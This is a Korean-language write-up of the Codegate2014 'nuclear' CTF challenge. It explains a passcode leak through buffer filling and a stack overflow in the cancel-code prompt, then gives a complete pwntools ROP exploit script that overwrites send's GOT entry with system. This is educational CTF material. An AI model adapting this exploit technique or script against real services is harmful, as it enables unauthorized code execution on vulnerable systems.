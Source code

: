 # nuclear
### Codegate2014
***nuclear는 Codegate2014에 출제된 문제입니다.***

nuclear를 실행하려면, THIS_IS_NOT_KEY_JUST_PASSCODE라는 파일이 필요합니다!
```
편집기 명령어를 이용하여, 위 파일을 만들어주신 뒤 안에 아무 값이나 입력하고, 진행하시면 됩니다!~
```

처음 nuclear에 들어가면, Welcome to the nuclear control system이라고 나입니다!

nuclear를 관리하는 시스템 이라는 것을 알 수 있습니다 ㅋㅋ

명령어는 아래 그림과 같이 target, quit, launch세가지 명령어를 지원하는 것을 볼 수 있습니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/nuclear/img/Main.PNG)

한 명령어씩 살펴보자면, quit는 프로그램을 종료하는 명령어입니다!

target명령어는 sscanf를 이용하여 %f/%f 형식으로 값을 입력받는 것을 볼 수 있습니다.

마지막으로 launch는 Passcode를 입력받으면 nuclear를 실행 시킵니다.

nuclear를launch명령어를 실행 시키면, 아래 그림과  같이 나오게 됩니다.

이 때 IF YOU WANT CANCEL THIS CODE OPERATION, ENTE...이라는 말과 함께 CANCEL 코드를 입력받습니다.

이 캔슬 코드를 입력 받는 곳에서 버퍼는 -20C인데, 0x512만큼 입력을 받아 오버플로우가 생기게 됩니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/nuclear/img/Start_routine.PNG)

그럼 시나리오는 PASSCODE를 찾아서 launch에 진입한 뒤 CANCEL CODE를 오버플로우나게 입력하면 됩니다!

그럼 PASSCOEE는 어디에 있을까요?

아래 그림을 보면, THIS IS NOT KEY JUST PASSCOE를 읽어서, [ebp-s]에 저장하는 모습을 볼 수 있습니다.

s는 var_34/38아래 있는 모습을 볼 수 있구요!

직접적으로 PASSCODE를 보여주지 않으니 leak을 이용하여 값을 알아내야 합니다.

leak을 어떻게 해야할까요?

첫 번째로는 알수없는 커멘드를 입력하면 Unkonw command를 출력하며, 자기가 입력한 커멘드를 보여줍니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/nuclear/img/Unkonw.PNG)

이 커맨드를 입력받는 곳은 s1이고 -283에 위치해 있습니다. 그 아래로 var_38, 34가 보입니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/nuclear/img/Value.PNG)

s1을 꽉 채운후 var_38,34가 꽉 차있다면 s가 Unkonw command메시지가 나올 때 깥이 나오겠져?

그럼 var_34, 38은 어떻게 채워야 할까요?

target명령어 안의 sscanf를 이용하여 var_38, 34를 채울 수 있습니다!

저는 처음 sscanf가 뭔지 몰라 릭하는데 조금 해멧었내요!

![Alt text](https://github.com/Funniest/System-study/blob/master/nuclear/img/msdn.PNG)

처음 입력받는 곳이 sscanf밖에 없어서 한번 검색을 해보았습니다.

[sscanf msdn]https://msdn.microsoft.com/ko-kr/ms860379

대충 sscanf동작을 보면, 주어진 buffer에서 정해준 형식대로 입력될 버퍼들에게 전달하는 역할을 하는 함수입니다.

scanf하고 거희 유사해요!

자 그럼 sscanf를 이용하여 34,38부분을 꽉 채우면 PASSCODE를 leak할 수 있습니다!

이제 대강 어떻게 오버플로우를 할 지 알아보았니 본격적으로 익스플로잇 코드를 작성해 보겠습니다.

필요한 준비물은 아래와 같습니다.

```
1. bss address
2. send plt/got
3. recv plt
4. send - system offset
5. ppppr
```

익스플로잇 순서는 다음과 같습니다.
```
1. target 메뉴를 이용하여 var_38, 34의 값을 null없이 채워줍니다.
2. 그 후 0x283만큼 A를 입력하여 s를 null바이트 없이 채워 PASSCODE를 릭합니다.
3. 얻은 passcode로 launch에 접속합니다.
4. CANCLE CODE를 입력받을 때 구한 가젯들을 이용하여 페이로드를 작성합니다.
	└ send_plt로 send_got의 주소를 보냅니다.
	└ 그 후 recv_plt를 이용하여 bss영역에 실행할 명령어를 씁니다.
	└ recv_plt를 이용하여 send_got에 system주소로 덮어씁니다.
	└ 오버라이팅 된 send_got에 bss영역을 주어 호출합니다.
```

### 소스코드
Ubuntu 16 LTS 64bit환경에서 테스팅 해보았습니다.

```
from pwn import *
import time

r =remote('127.0.0.1', 1129)

elf = ELF('./nuclear_d4f699f3dbb8aadf7c224aa57f57eb4c')

#leak passcode
print r.recvuntil('> ')
r.sendline('target')
print r.recvuntil('---> ')
r.sendline('123123.123123/123123.123123')
print r.recvuntil('> ')
r.sendline('A'*0x200)
print r.recvuntil(': ')
print r.recv(0x208)

passcode = r.recv(21)
print "Pass code : " + passcode

print r.recvuntil(": ")
print r.recvuntil("> ")

#exploit
r.sendline("launch")
print r.recvuntil(": ")
r.sendline(passcode)

bss = elf.bss()
send_plt = elf.plt['send']
send_got = elf.got['send']
recv_plt = elf.plt['recv']
send_system_libc = 0x18A760

ppppr = 0x804917c
cmd = "ls -al"

payload = ''
payload += "A" * 0x210
payload += p32(send_plt)
payload += p32(ppppr)
payload += p32(0x04)
payload += p32(send_got)
payload += p32(0x04)
payload += p32(0x00)

payload += p32(recv_plt)
payload += p32(ppppr)
payload += p32(0x04)
payload += p32(bss)
payload += p32(len(cmd))
payload += p32(0x00)

payload += p32(recv_plt)
payload += p32(ppppr)
payload += p32(0x04)
payload += p32(send_got)
payload += p32(0x04)
payload += p32(0x00)

payload += p32(send_plt)
payload += "AAAA"
payload += p32(bss)

r.sendline(payload)

print r.recv(1024)

send_libc = u32(r.recv(4))
system_addr = send_libc - send_system_libc
print hex(system_addr)

r.send(cmd)

r.send(p32(system_addr))

print r.recv(1024)
```
